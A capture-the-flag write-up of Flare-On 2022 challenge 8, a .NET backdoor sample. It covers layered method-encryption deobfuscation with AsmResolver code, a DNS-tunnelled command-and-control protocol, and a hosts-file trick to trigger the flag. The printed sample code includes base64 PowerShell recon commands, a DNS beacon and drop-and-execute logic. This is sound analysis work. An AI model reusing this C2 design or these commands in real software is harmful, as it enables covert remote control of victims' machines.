





# 8 - backdoor

**Time spent:** 6 hours

**Tools used:** Ghidra, Python


Challenge 8 was for me by far the best challenge in the entire series. 
It is a proper Flare-On challenge with many layers of depth in it.
It shows really well that a .NET binary can really be a tough nut to crack, something that not everyone is used to.

I may be a bit biased though.
I do love me some .NET binaries, and since I have written a library that can handle binaries like these, I felt very much at home :)


## Orientation

On the surface, the provided program does not seem to be doing much:



It seems to be waiting for something, but it is not responding to any input.
After a short while, it drops a file called `flare.agent.id` in the current working directory with contents that looks like the following:

```
-
43901
```

Every time we run the program and this file does not exist, it generates a new one with a different number.

If we drop the program in dnSpy, we see that it is protected with some type of obfuscation.
About half of the methods (the ones called `flared_xx`) contain invalid CIL code and are not decompileable.
The remaining methods (the ones called `flare_xx`) seem to be a stub for the former methods, guarded by a weird try-catch statement each:



There are only a few methods that do not seem to be following this pattern.
This includes the main function, as well as a handful methods in the `FLARE15` class.


## Deobfuscation Stage 1

Let's analyze what's going on here.
If we take a closer look at some of these `flare_XX` stub methods that we _can_ read and decompile, we see that they all follow the same pattern.

```csharp
public static string flare_XX(...)
{
    string result;
    try
    {
        result = FLARE15.flared_XX(...);
    }
    catch (InvalidProgramException e)
    {
        result = (string)FLARE15.flare_71(e, new object[]
        {
            ...
        }, FLARE15.AAA, FLARE15.BBB);
    }
    return result;
}
```

First of all, they all forward the arguments passed into the parameters of stub method to another `flared_XX` method that contains invalid CIL.
Whenever a method with an invalid CIL method body is called, the runtime throws an `InvalidProgramException`.
Normally, this would crash the program.
However, in our case, every `flare_XX` stub is specifically crafted to capture exactly this type of exception that is thrown by such an invalid method call.
In the catch block, we see a call to `flare_71`, which takes the exception that was thrown, as well as the original arguments collected in an `object[]` and two collections.
In short, this is a type of control flow obfuscation and/or method encryption where `flare_71` handles the decryption.

Let's dive into `flare_71`.
Below is the annotated version of it:

```csharp
public static object flare_71(InvalidProgramException e, object[] args, Dictionary<uint, int> m, byte[] b)
{
    // Obtain the method object that contains invalid CIL.
    StackTrace stackTrace = new StackTrace(e);
    int metadataToken = stackTrace.GetFrame(0).GetMethod().MetadataToken;
    Module module = typeof(Program).Module;
    MethodInfo methodInfo = (MethodInfo)module.ResolveMethod(metadataToken);
    MethodBase methodBase = module.ResolveMethod(metadataToken);

    // Obtain parameter types.
    ParameterInfo[] parameters = methodInfo.GetParameters();
    Type[] array = new Type[parameters.Length];
    SignatureHelper localVarSigHelper = SignatureHelper.GetLocalVarSigHelper();
    for (int i = 0; i < array.Length; i++)
    {
        array[i] = parameters[i].ParameterType;
    }
    Type declaringType = methodBase.DeclaringType;

    // Create a new dynamic method.
    DynamicMethod dynamicMethod = new DynamicMethod("", methodInfo.ReturnType, array, declaringType, true);
    DynamicILInfo dynamicILInfo = dynamicMethod.GetDynamicILInfo();
    MethodBody methodBody = methodInfo.GetMethodBody();

    // Copy over local variables from original method body into dynamic method.
    foreach (LocalVariableInfo localVariableInfo in methodBody.LocalVariables)
    {
        localVarSigHelper.AddArgument(localVariableInfo.LocalType);
    }
    byte[] signature = localVarSigHelper.GetSignature();
    dynamicILInfo.SetLocalSignature(signature);

    // For each patch entry in m.
    foreach (KeyValuePair<uint, int> keyValuePair in m)
    {
        int value = keyValuePair.Value;
        uint key = keyValuePair.Key;
        bool flag = value >= 0x70000000 && value < 0x7000FFFF;
        int tokenFor;

        /* 
            ...
            Transform the "physical" token into a "dynamic" token, with variations of 
            `dynamicILInfo.GetTokenFor` calls depending on `value`. The result stored 
            in the `tokenFor` variable.
            ... 
        */

        // Patch token in the new method body.
        b[(int)key] = (byte)tokenFor;
        b[(int)(key + 1U)] = (byte)(tokenFor >> 8);
        b[(int)(key + 2U)] = (byte)(tokenFor >> 0x10);
        b[(int)(key + 3U)] = (byte)(tokenFor >> 0x18);
    }

    // Assign the new raw method body.
    dynamicILInfo.SetCode(b, methodBody.MaxStackSize);

    // Call the new method with the original arguments.
    return dynamicMethod.Invoke(null, args);
}
```

In short, `flare_71` creates a new dynamic method based on the faulty method that the exception originated from.
It does so by first pulling some basic metadata from the faulty method such as parameters, return type and the types of each local variable, and copies them over into the new dynamic method.
It then takes the byte array passed into `b`, and interprets it as a CIL bytecode stream. 
But before it passes it into the code stream of the dynamic method, it applies some patches based on `m` to make sure that the metadata tokens (the operands of many of these instructions that reference external methods, fields, types and strings) are valid within the dynamic context that it has created.
Our goal is to reconstruct these method bodies ourselves, and replace the invalid method bodies with the new ones so that we can let the decompiler of dnSpy read our code properly.

To do this, we can use any .NET binary inspection library.
Since I am the author of [AsmResolver](https://github.com/Washi1337/AsmResolver), I know the library better than any other of these libraries, so it was a natural option for me.

To facilitate some method patching via byte arrays in AsmResolver, I created a little helper structure in my deobfuscator program called `MethodPatchInfo` that simulates the behavior of `flare_71`, with one important difference.
Since the metadata tokens put into a **dynamic** method body are not necessarily valid metadata tokens when it is stored in a **physical** method body, we need to carve out the code that is responsible for the translation of tokens in `m` into the dynamic tokens that are spit out by the `dynamicILInfo.GetTokenFor` calls.
Surprisingly, this makes our code for reconstructing the bytecode rather simple:

```csharp
/* ... usings omitted ... */

public struct MethodPatchInfo
{
    public MethodDefinition TargetMethod; // Method referenced by the exception object.
    public byte[] TemplateBody;           // b
    public Dictionary<uint, int> Patches; // m
    
    private byte[] CreatePatchedBody()
    {
        byte[] result = (byte[]) TemplateBody.Clone();
        if (Patches is null)
            return result;

        foreach ((uint key, int token) in Patches)
        {
            result[(int)key] = (byte)token;
            result[(int)(key + 1U)] = (byte)(token >> 8);
            result[(int)(key + 2U)] = (byte)(token >> 0x10);
            result[(int)(key + 3U)] = (byte)(token >> 0x18);
        }

        return result;
    }

    // ...
```

Then, to create a new method body, obtain the basic metadata as the original `flare_71` does, decode the resulting byte array into a list of `CilInstruction`s, and shove them all into a new instance of the `CilMethodBody` class:

```csharp
    // ...

    public void ApplyPatch()
    {
        var module = TargetMethod.Module!;

        var body = new CilMethodBody(TargetMethod);

        // Need to resort to raw method body for local variables, because AsmResolver sometimes
        // won't return the body of the target method as they are broken.
        var bodyReader = module.DotNetDirectory!.Metadata!
            .GetStream<TablesStream>()
            .GetTable<MethodDefinitionRow>()
            .GetByRid(TargetMethod.MetadataToken.Rid).Body.CreateReader();

        // Read raw method body.
        var rawBody = CilRawMethodBody.FromReader(ref bodyReader);

        // If fat, we have some extra fields to process.
        if (rawBody is CilRawFatMethodBody fatBody)
        {
            body.MaxStack = fatBody.MaxStack;

            if (fatBody.LocalVarSigToken != 0)
            {
                // Read the original signature.
                var signature = (LocalVariablesSignature)
                    ((StandAloneSignature) module.LookupMember(fatBody.LocalVarSigToken))
                    .Signature!;

                // Add the locals.
                foreach (var type in signature.VariableTypes)
                    body.LocalVariables.Add(new CilLocalVariable(type));
            }
        }

        // Decode all instructions.
        var patchedBody = CreatePatchedBody();
        var disassembler = new CilDisassembler(
            ByteArrayDataSource.CreateReader(patchedBody),
            new PhysicalCilOperandResolver(module, body));

        // Add them to the body.
        body.Instructions.AddRange(disassembler.ReadInstructions());

        // Replace original method body with new one.
        TargetMethod.CilMethodBody = body;
    }
}
```

We can then run this for every patched method to decrypt all methods protected by `flare_71`.

A good first step!


## Deobfuscation Stage 2

But we're not there yet.
Not all methods were protected by `flare_71`, and some methods that were protected by `flare_71` are also protected in some other way.
In fact, all methods that were not protected by `flare_71` were protected by `flared_70` instead.
However, the protection is not too different. 

```csharp
public static object flared_70(InvalidProgramException e, object[] a)
{
    StackTrace stackTrace = new StackTrace(e);
    int metadataToken = stackTrace.GetFrame(0).GetMethod().MetadataToken;
    string h = FLARE15.flare_66(metadataToken);
    byte[] d = FLARE15.flare_69(h);
    byte[] b = FLARE12.flare_46(new byte[]
    {
        0x12,
        0x78,
        0xAB,
        0xDF
    }, d);
    return FLARE15.flare_67(b, metadataToken, a);
}
```

Again, it grabs the faulty method from the `InvalidProgramException` that was thrown upon execution.
If you step into each of these `flare_XX` calls, you'll find that `flare_66` computes some type of hash code based on the method.
The result is then put into `flare_69`, which uses it to search a PE section with a similar name and obtains the raw bytes stored in it. 
These bytes are then fed into `flare_46`, which is an implementation of the RC4 encryption algorithm.
Finally, `flare_67` transforms the bytes into a dynamic method in a somewhat similar fashion as `flare_71`, and invokes it.
We can simulate this all with AsmResolver as well:

```csharp
private static void ApplyStage2Patch(IPEFile peFile, MethodDefinition targetMethod)
{
    try
    {
        // flare_66
        string hash = DecompiledCode.ComputeMethodHash(targetMethod); 

        // flare_69
        var section = peFile.Sections.First(s => hash.StartsWith(s.Name)); 
        byte[] sectionData = section.ToArray()[..(int)section.GetVirtualSize()]; 

        // flare_46
        byte[] decryptedData = DecompiledCode.Rc4Decrypt(new byte[] { 0x12, 0x78, 0xAB, 0xDF }, sectionData);
        byte[] code = DecompiledCode.CreateStage2PatchedBody(decryptedData);

        // flare_67
        var patch = new MethodPatchInfo();
        patch.TargetMethod = targetMethod;
        patch.TemplateBody = code;
        patch.ApplyPatch();
    }
    catch (Exception ex)
    {
        Console.WriteLine($"Could not decrypt bytecode for {targetMethod.MetadataToken} ({targetMethod}). {ex}");
    }
}
```

This decrypts all methods, the file is now fully readable!

The full source code of my deobfuscator can be found [here](https://github.com/Washi1337/ctf-writeups/blob/master/writeups/flare-on/2022/8/src).


## Analyzing the Code

Now that we got the deobfuscation part out of the way, we can get to analyzing the code and see what this program really does.
With a large binary like this, it may be somewhat difficult to know where to start.
The first thing I did when I started analyzing this is to just go over some of the functions and rename them to something that makes more sense than `flare_XX` or `flared_XX`.

When you do this, you will come across method `flared_56` (metadata token: `0x06000099`), which looks a lot like a handler for commands that are received by some type of C2 server.
Notice the `FLARE14.ListData` being used as some kind of command queue that is used in a large unrolled switch-like statement comparing its contents to some hardcoded strings:

```csharp
public static FLARE07 flared_56()
{
    FLARE07 result = FLARE07.B;
    bool flag = FLARE14.ListData.Count > 0 && FLARE14.ListData[0] != null;
    if (flag)
    {
        byte[] array = FLARE14.ListData[0];
        FLARE06.TT taskType = (FLARE06.TT)array[0];
        byte[] array2 = array.Skip(1).ToArray<byte>();
        /* ... */
        if (flag2)
        {
            /* ... */
        }
        else
        {
            /* ... */
            string cmd = Encoding.UTF8.GetString(array2);
            Thread thread = new Thread(delegate()
            {
                string text = cmd;
                bool flag9 = taskType == FLARE06.TT.C;
                if (flag9)
                {
                    uint num2 = FLARE14.flare_51(text);
                    bool flag10 = num2 <= 0x1EEB2EFDU;
                    if (flag10)
                    {
                        bool flag11 = num2 <= 0x19EB271EU;
                        if (flag11)
                        {
                            bool flag12 = num2 <= 0x14EB1F3FU;
                            if (flag12)
                            {
                                bool flag13 = num2 != 0x13EB1DACU;
                                if (flag13)
                                {
                                    bool flag14 = num2 == 0x14EB1F3FU;
                                    if (flag14)
                                    {
                                        bool flag15 = text == "19";
                                        if (flag15)
                                        {
                                            FLARE14.flare_56(int.Parse(text), "146");
                                            text = FLARE02.flare_04("JChwaW5nIC1uIDEgMTAuNjUuNDUuMyB8IGZpbmRzdHIgL2kgdHRsKSAtZXEgJG51bGw7JChwaW5nIC1uIDEgMTAuNjUuNC41MiB8IGZpbmRzdHIgL2kgdHRsKSAtZXEgJG51bGw7JChwaW5nIC1uIDEgMTAuNjUuMzEuMTU1IHwgZmluZHN0ciAvaSB0dGwpIC1lcSAkbnVsbDskKHBpbmcgLW4gMSBmbGFyZS1vbi5jb20gfCBmaW5kc3RyIC9pIHR0bCkgLWVxICRudWxs");
                                            FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                        }
                                    }
                                }
                                else
                                {
                                    bool flag16 = text == "18";
                                    if (flag16)
                                    {
                                        FLARE14.flare_56(int.Parse(text), "939");
                                        text = FLARE02.flare_04("JAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4AMQAwAC4AMgAyAC4ANAAyACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwAOwAkACgAcABpAG4AZwAgAC0AbgAgADEAIAAxADAALgAxADAALgAyADMALgAyADAAMAAgAHwAIABmAGkAbgBkAHMAdAByACAALwBpACAAdAB0AGwAKQAgAC0AZQBxACAAJABuAHUAbABsADsAJAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4AMQAwAC4ANAA1AC4AMQA5ACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwAOwAkACgAcABpAG4AZwAgAC0AbgAgADEAIAAxADAALgAxADAALgAxADkALgA1ADAAIAB8ACAAZgBpAG4AZABzAHQAcgAgAC8AaQAgAHQAdABsACkAIAAtAGUAcQAgACQAbgB1AGwAbAA=");
                                        FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                    }
                                }
                            }
                            
                /* ... many more else-if statements testing for string equality ... */
            });
            thread.Start();
            
            /* ... */
        }
        
        /* ... */
        FLARE14.ListData.RemoveAt(0);

        /* ... */
    }

    return result;
}
```

However, there is no trace of the use of classes like `Socket`, `WebClient` or any other type of code that may perform some type of TCP communication.
The only thing that looks remotely like a means of communication is the call to `Dns::Resolve` in `flared_30`:

```csharp
public static bool flared_30(out byte[] r)
{
    bool result = true;
    r = null;
    IPHostEntry iphostEntry = Dns.Resolve(FLARE05.A);
    r = iphostEntry.AddressList[0].GetAddressBytes();
    FLARE05.B = 0;
    FLARE03.flare_09();
    return result;
}
```

Why would a program use DNS resolution, but not really do anything with the resulting IP address?

I decided to see in a debugger what type of domains were being resolved.
When you set a breakpoint on `Dns::Resolve`, what you will notice is that it starts with a seemingly randomly generated domain:



If we add the host to our hosts file with some random IP address, we see that more and more random hosts are generated and resolved:



Furthermore, the contents of the `flare.agent.id` file is strongly connected to this DNS resolution.
The number stored in this file seems to increase every time a correct resolution was made, and setting it to specific values always results in the same domain being resolved next.
For example, replacing the file contents with:
```
1
1
```
always results in the host `eaam.flare-on.com` being resolved first.


## Reversing the communication protocol

It so turns out that DNS is the method that the program uses to communicate with the C2.
If we cross-reference on the functions that use `Dns::Resolve`, we eventually come across `flared_27`:

```csharp
public static bool flared_27()
{
    FLARE05.flare_29(FLARE06.DomT.A, FLARE03.alive_key);
    byte[] array;
    bool flag = FLARE05.flare_30(out array); // <-- eventually calls Dns.Resolve and outputs the array.
    bool flag2 = flag;
    if (flag2)
    {
        FLARE03.flare_08((int)array[3]); // <-- sets agent_id and writes to flare.agent.id file.
    }
    return flag;
}
```

This method is only called once when `flare.agent.id` does not exist yet, or contains a `-`.
It calls `flare_30`, which eventually calls `Dns.Resolve` on some random host and outputs the resulting IP address into the `array` variable.
Then, `flare_08` is called with only the last component of the IP.
This number is then used as an `agent_id`, which is then eventually written to the disk, and is also used as one of the inputs for the random host name generator that is used afterwards.

The next DNS request is made in `flared_25`.
This method is responsible for recognizing "start markers" of actual commands provided by the C2, and allocating receive buffers depending on how large the command is going to be.

```csharp
public static bool flared_24(out FLARE07 r)
{
    int val = FLARE05.F - FLARE05.G;
    int num = Math.Min(FLARE03.send_count, val);
    bool flag = FLARE05.G == 0;

    // Generate new host names.
    if (flag)
    {
        FLARE05.flare_29(FLARE06.DomT.B, FLARE15.flare_60(FLARE05.G).PadLeft(3, FLARE03.chars_domain[0]) + FLARE15.flare_60(FLARE05.F).PadLeft(3, FLARE03.chars_domain[0]) + FLARE01.flare_01(FLARE05.H.Skip(FLARE05.G).Take(num).ToArray<byte>()));
    }
    else
    {
        FLARE05.flare_29(FLARE06.DomT.B, FLARE15.flare_60(FLARE05.G).PadLeft(3, FLARE03.chars_domain[0]) + FLARE01.flare_01(FLARE05.H.Skip(FLARE05.G).Take(num).ToArray<byte>()));
    }

    r = FLARE07.B;
    byte[] r2;
    bool flag2 = FLARE05.flare_30(out r2); // <-- Calls Dns::Resolve on random host.
    bool flag3 = flag2;
    if (flag3)
    {
        bool flag4 = FLARE05.flare_33(r2); // <-- Calls flared_33, which attempts to interpret the IP as a command start marker.
        if (flag4)
        {
            r = FLARE07.C;
        }
        bool flag5 = FLARE05.flare_34(num); // <-- Clears current receive buffers.
        if (flag5)
        {
            bool flag6 = r == FLARE07.C;
            if (flag6)
            {
                r = FLARE07.G;
                return flag2;
            }
            r = FLARE07.F;
        }
    }
    return flag2;
}

public static bool flared_33(byte[] r)
{
    bool flag = r[0] >= 0x80;
    bool result;
    if (flag) // <-- A start marker is indicated by an IP for which the first component >= 128.
    {
        FLARE05.D = 0;
        FLARE05.C = FLARE15.flare_62(r.Skip(1).Take(3).ToArray<byte>()); // <-- calls BitConverter.ToInt32.
        FLARE05.E = new byte[FLARE05.C]; // <-- Allocate new receive buffer with this size.
        result = true;
    }
    else
    {
        result = false;
    }
    return result;
}
```

In simple terms, this means that the IP address is interpreted as follows:

```
AAA.BBB.BBB.BBB
```

where `AAA` should be larger or equal to 128, and the bytes in `BBB` make up the total size of the command.

Following up, the IP addresses in the subsequent DNS responses are interpreted as bytes themselves.
The `flared_25` method is responsible for this process. 
It looks very similar to `flared_24`, but instead of calling `flare_33` it calls `flare_32` that queues the received data into the `ListData` global field we saw earlier being used in the command handler:

```csharp
public static bool flared_25(out FLARE07 r)
{
    int val = FLARE05.F - FLARE05.G;
    int num = Math.Min(FLARE03.send_count, val);
    FLARE05.flare_29(FLARE06.DomT.D, FLARE15.flare_60(FLARE05.G).PadLeft(3, FLARE03.chars_domain[0]) + FLARE15.flare_60(FLARE05.D).PadLeft(3, FLARE03.chars_domain[0]) + FLARE01.flare_01(FLARE05.H.Skip(FLARE05.G).Take(num).ToArray<byte>()));
    r = FLARE07.B;
    byte[] d;
    bool flag = FLARE05.flare_30(out d);  // <-- Calls Dns::Resolve on random host.
    bool flag2 = flag;
    if (flag2)
    {
        bool flag3 = FLARE05.flare_32(d); // <-- Calls flared_32, which queues the resulting data into `ListData` for processing by the command handler.
        if (flag3)
        {
            r = FLARE07.D;
        }
        bool flag4 = FLARE05.flare_34(num); // <-- Clears current receive buffers.
        if (flag4)
        {
            bool flag5 = r == FLARE07.D;
            if (flag5)
            {
                r = FLARE07.H;
                return flag;
            }
            r = FLARE07.F;
        }
    }
    return flag;
}

public static bool flared_32(byte[] d)
{
    int val = FLARE05.C - FLARE05.D;
    ushort length = (ushort)Math.Min(d.Length, val);
    Array.Copy(d, 0, FLARE05.E, FLARE05.D, (int)length); // <-- Copy received bytes into receive buffer.
    FLARE05.D += 4;
    bool flag = FLARE05.D >= FLARE05.C;
    bool result;
    if (flag) // <-- Has the entire command been received already?
    {
        byte[] array = new byte[FLARE05.C];
        Array.Copy(FLARE05.E, 0, array, 0, FLARE05.C);
        FLARE14.ListData.Add(array); // <-- Queue the command for processing.
        FLARE05.D = 0;
        FLARE05.C = 0;
        Array.Clear(FLARE05.E, 0, FLARE05.E.Length);
        result = true;
    }
    else
    {
        result = false;
    }
    return result;
}
```


In short, the general flow of the program and the protocol can be summarized in the following flow chart:




## Getting the Flag

Now the only thing we need to figure out is which commands to send the program.
As was said before, all available commands can be found in the command handler that we identified earlier to be in `flared_56`.
The commands themselves are not too interesting for us, except for commands that start with IP subnet `43.x.x.x.`:
They all seem to forward the command string to the `flare_56` method, which in turn forwards it to method `flared_55`:

```csharp
public static void flared_55(int i, string s)
{
    bool flag = FLARE15.c.Count != 0 && FLARE15.c[0] == (i ^ 0xF8);
    if (flag)
    {
        FLARE14.sh += s;
        FLARE15.c.Remove(i ^ 0xF8);
    }
    else
    {
        FLARE14._bool = false;
    }
}
```

Here we see something interesting. 
The method tests whether the input command interpreted as an integer matches the first element in a collection `c` XOR'ed by `0xF8`.
If this is true, it appends some random string to a global variable `sh`, and removes the element from `c`.
This tells me that `c` contains some kind of encoded password.
Furthermore, `c` is of type `ObservableCollection<int>`, which means that a program can subscribe for its `CollectionChanged` event that gets fired every time an update was made to the collection, including the removal of elements.
If we cross-reference and look for methods that may look like this, we come across `flared_52`, which tests exactly for this type of update:

```csharp
public static void flared_52(object sender, NotifyCollectionChangedEventArgs e)
{
    bool flag = e.Action == NotifyCollectionChangedAction.Remove;
    if (flag)
    {
        bool flag2 = FLARE14._bool && FLARE15.c.Count == 0;
        if (flag2)
        {
            FLARE14.flare_55();
        }
    }
}

public static void flared_54()
{
    byte[] d = FLARE15.flare_69(FLARE14.flare_54(FLARE14.sh));
    byte[] hashAndReset = FLARE14.h.GetHashAndReset();
    byte[] array = FLARE12.flare_46(hashAndReset, d);
    string text = Path.GetTempFileName() + Encoding.UTF8.GetString(FLARE12.flare_46(hashAndReset, new byte[] { 0x1F, 0x1D, 0x28, 0x48 }));
    FileStream fileStream = new FileStream(text, FileMode.Create, FileAccess.Write, FileShare.Read);
    fileStream.Write(array, 0, array.Length);
    Process.Start(text);
}
```

This handler essentially tests whether the `c` collection became empty after a removal, and if so, it calls `flare_55` which is the stub for `flared_54`. 
This last method seems to do some type of decryption based on the `sh` string that we saw earlier, writes the result to a file and then starts it as a process.
This is very likely to be the final program or file that will contain the flag.

We could try and figure out how exactly this program performs the decryption, but I am lazy, and decided to let the program do the work for us itself.
And to do that, we only have to come up with the right sequence as indicated by the collection `c`, which is initialized in `flare_74`:
```csharp
    FLARE15.c = new ObservableCollection<int> { 
        0xFA, 0xF2, 0xF0, 0xEB, 0xF3, 0xF9, 0xF7, 0xF5, 0xEE, 0xE8, 0xFD, 
        0xF4, 0xED, 0xFB, 0xEA, 0xE9, 0xEC, 0xF6, 0xF1, 0xFF, 0xFC
    };
```

A simple Python script will give us the right order of IP addresses that we want to send to the program:
```python
expected = [
    0xFA, 0xF2, 0xF0, 0xEB, 0xF3, 0xF9, 0xF7, 0xF5, 0xEE, 0xE8, 0xFD, 
    0xF4, 0xED, 0xFB, 0xEA, 0xE9, 0xEC, 0xF6, 0xF1, 0xFF, 0xFC
]

order = [x ^ 0xF8 for x in expected]

for x in order:
    digits = str(x)
    print(f"128.0.0.{(len(digits) + 1)}")

    if x < 10:
        print(f"43.{x + 0x30}.0.0")
    else:
        print(f"43.{(x // 10) + 0x30}.{(x % 10) + 0x30}.0")
```

Then, reset the contents of the `flare.agent.id` file back to:
```
1
1
```
so that we can leak a sequence of host names that we can then add to our `hosts` file.
Again just trace all `Dns::Resolve` calls until you have enough hosts for all the IP addresses that you will be needing.

We end up with a list like the following:

```
128.0.0.2 eaam.flare-on.com
43.50.0.0 f9aaaaas.flare-on.com
128.0.0.3 11wwwwwur928wx02jvna0giudjlxaaj.flare-on.com
43.49.48.0 n7ww9wwwkgaal.flare-on.com
128.0.0.2 uu999995arhi2n8b20a49b2dcctjaa6.flare-on.com
43.56.0.0 a400v000cpaaz.flare-on.com
128.0.0.3 ll111119bqbtz4iq26njviwk2w1oaac.flare-on.com
43.49.57.0 js11811101aai.flare-on.com
128.0.0.3 ddkkkkkxpyqx7srzoqyaix5d8swkaa2.flare-on.com
43.49.49.0 sdffafffsuaa0.flare-on.com
128.0.0.2 ffjjjjj96tnnar7kwyjcxh38fqhlaad.flare-on.com
43.49.0.0 igpp3ppp9gaab.flare-on.com
128.0.0.3 hhwwwwwp5xikwebih8ajr74pcnqeaat.flare-on.com
43.49.53.0 5m11n111wuaa3.flare-on.com
128.0.0.3 99mmmmms3q5wwkwfbq52n0mmaa5.flare-on.com
43.49.51.0 fpnnnaag.flare-on.com
128.0.0.3 55pppppn3zonel7bhozg0ns5vlqpaau.flare-on.com
43.50.50.0 0ywwdwww0paah.flare-on.com
128.0.0.3 22nnnnnpxc9dba03wcmo8u3ngyx1aaw.flare-on.com
43.49.54.0 0l99k999h2aa7.flare-on.com
128.0.0.2 44jjjjjagymz71dyn2mcaaan.flare-on.com
43.53.0.0 dj333aa1.flare-on.com
